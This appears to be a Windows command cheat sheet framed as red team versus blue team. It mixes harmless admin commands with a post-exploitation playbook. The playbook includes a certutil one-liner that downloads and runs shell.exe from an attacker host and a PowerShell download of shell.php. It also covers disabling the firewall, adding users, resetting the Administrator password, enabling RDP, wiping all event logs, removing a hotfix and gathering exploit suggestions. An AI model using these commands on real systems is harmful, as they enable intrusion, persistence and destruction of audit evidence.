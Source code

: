 Windows Administration and Security
-----------------------------------


#RDP from Linux
rdesktop -u Administrator -p test1test! x.x.x.x
xfreerdp -f -u Administrator -p test1test! x.x.x.x



#Disable firewall win xp
C:\WINDOWS\system32>netsh firewall set opmode mode=DISABLE
netsh firewall set opmode mode=DISABLE
Ok.



#Disable firewall 10/8/7/server 2008/Vista
c:\windows\system32\inetsrv>netsh advfirewall set currentprofile state off
netsh advfirewall set currentprofile state off
Ok.



#Shows temporary storage location
C:\>echo %temp%
echo %temp%
C:\Windows\TEMP



#Python file hosting on Linux (Red Team)
#Save file in directory Shell.exe
sudo python2.7 -m SimpleHTTPServer 80
Serving HTTP on 0.0.0.0 port 80 ...



#Windows (Blue team) to download the file from cmdline
#Downloads Shell.exe
#Saves shell.exe in %temp%
#Runs %temp%/shell.exe
C:\Users\Blue Team> certutil -urlcache -split -f http://x.x.x.x/shell.exe %temp%/shell.exe && %temp%/shell.exe



#List Windows running processes
C:\WINDOWS\system32>tasklist
tasklist

Image Name                   PID Session Name     Session#    Mem Usage
========================= ====== ================ ======== ============
System Idle Process            0 Console                 0         28 K
System                         4 Console                 0        236 K
smss.exe                     316 Console                 0        384 K



#Add a Windows user
C:\WINDOWS\system32>net user username userpassword /ADD
net user username userpassword /ADD
The command completed successfully.



#Add to domain
C:\WINDOWS\system32>net user username password /ADD /DOMAIN



#List Windows Users
C:\WINDOWS\system32>net user
net user

User accounts for \\

-------------------------------------------------------------------------------
username                 Administrator            Guest                    
HelpAssistant            john                     SUPPORT_388945a0         
test                     



#Change Administrator password
c:\windows\system32>net user Administrator test1test!
net user Administrator test
The command completed successfully.



#List Windows local user directories
C:\WINDOWS\system32>dir /b "C:\Users"      
dir /b "C:\Users"
add
Administrator
All Users
john



#Windows show Date
C:\WINDOWS\system32>date /t
date /t
ãîæ 31/10/2019 



#Windows show Time
C:\WINDOWS\system32>time /t
time /t
11:49 ææ



#Windows show uptime/system information
C:\WINDOWS\system32>systeminfo 
systeminfo 



#Save system information for exploit gathering
C:\WINDOWS\system32>systeminfo > systeminfo
systeminfo 

#Upload from Blue Team(Windows) to Red Team (Linux)

#Red Team (Linux) checks against possible vulnerabilites 
git clone https://github.com/GDSSecurity/Windows-Exploit-Suggester.git
cd Windows-Exploit-Suggester
python2.7 windows-exploit-suggester.py --update
python2.7 windows-exploit-suggester.py --database 2019-10-27-mssb.xls --systeminfo systeminfo.txt



#Windows write into a file
C:\WINDOWS\system32>echo test > test
echo test > test



#Windows read file contents
C:\WINDOWS\system32>type test
type test
test 



#Windows show current directory
c:\Users>echo %CD%
c:\Users>



#Windows show current role
c:\Users>whoami
whoami
nt authority\system



#NT AUTHORITY\SYSTEM and BUILTIN\Administrators SIDs; these accounts have access to most system objects. 



#Windows List services
c:\windows\system32>net start
net start
These Windows services are started:

   Application Experience
   Application Host Helper Service
   Base Filtering Engine



#Stop/Start a Windows service
net stop <name>
net start <name>
net pause <name>
net continue <name>



#Enable RDP (Remote Desktop Protocol) via the registry in cmdline
c:\windows\system32>reg add "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server" /v fDenyTSConnections /t REG_DWORD /d 0 /f
reg add "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server" /v fDenyTSConnections /t REG_DWORD /d 0 /f
The operation completed successfully.



#Windows open a link using the default browser
c:\windows\system32>start "link" https://google.com



#Windows Powershell clear eventviewer logs
PS>wevtutil el | Foreach-Object {wevtutil cl "$_"}



#Windows remove a hotfix
C:\Users\Blue Team\Desktop>wusa.exe /uninstall /KB:3014442  
wusa.exe /uninstall /KB:3014442 



#Save shell.php in the directory you are running the python server on the Red Team host(Linux)
sudo python2.7 -m SimpleHTTPServer 80
Serving HTTP on 0.0.0.0 port 80 ...



#Windows Powershell download a file
$client = new-object System.Net.WebClient
$client.DownloadFile("http://x.x.x.x/shell.php","c:\location\shell.php")
$client.DownloadFile("http://x.x.x.x/shell.php","shell.php")
